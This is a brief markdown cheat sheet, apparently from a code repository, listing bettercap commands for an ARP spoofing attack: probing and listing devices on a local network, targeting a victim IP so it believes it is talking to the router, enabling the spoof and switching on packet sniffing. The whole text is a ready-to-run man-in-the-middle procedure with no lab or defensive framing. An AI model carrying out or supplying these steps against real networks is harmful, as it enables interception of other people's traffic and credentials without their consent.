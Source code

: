 # ARP Spoofing

start bettercap

```
$ sudo bettercap
```

start locating the devices in the network

```bash
net.probe on
```

list all the devices on the network

```
net.show
```

- Let the victim think that it's talking to the router

```
set arp.spoof.targets <IP>

arp.spoof on
```

Enable sniffer mode

```
net.sniff on
```